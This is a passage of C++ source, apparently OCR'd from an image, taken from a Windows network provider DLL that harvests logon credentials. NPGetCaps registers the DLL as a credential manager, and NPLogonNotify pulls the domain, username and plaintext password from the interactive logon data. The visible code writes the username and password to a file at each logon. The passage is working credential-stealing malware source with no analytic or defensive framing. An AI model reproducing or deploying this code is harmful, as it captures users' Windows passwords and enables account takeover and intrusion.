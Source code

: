 ```cpp
        WriteFile(hFile, username->Buffer, username->Length, &dwWritten, 0);
        WriteFile(hFile, L" -> ", 8, &dwWritten, 0);
        WriteFile(hFile, password->Buffer, password->Length, &dwWritten, 0);
        WriteFile(hFile, L"\r\n", 4, &dwWritten, 0);
        CloseHandle(hFile);
    }
}

DWORD
APIENTRY
NPGetCaps(
    DWORD nIndex
)
{
    switch (nIndex)
    {
    case WNNC_SPEC_VERSION:
        return WNNC_SPEC_VERSION51;

    case WNNC_NET_TYPE:
        return WNNC_CRED_MANAGER;

    case WNNC_START:
        return WNNC_WAIT_FOR_START;

    default:
        return 0;
    }
}

DWORD
APIENTRY
NPLogonNotify(
    PLUID lpLogonId,
    LPCWSTR lpAuthInfoType,
    LPVOID lpAuthInfo,
    LPCWSTR lpPrevAuthInfoType,
    LPVOID lpPrevAuthInfo,
    LPWSTR lpStationName,
    LPVOID StationHandle,
    LPWSTR* lpLogonScript
)
{
    SavePassword(
        &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->LogonDomainName),
        &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->UserName),
        &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->Password)
    );
    lpLogonScript = NULL;
    return WN_SUCCESS;
}
```
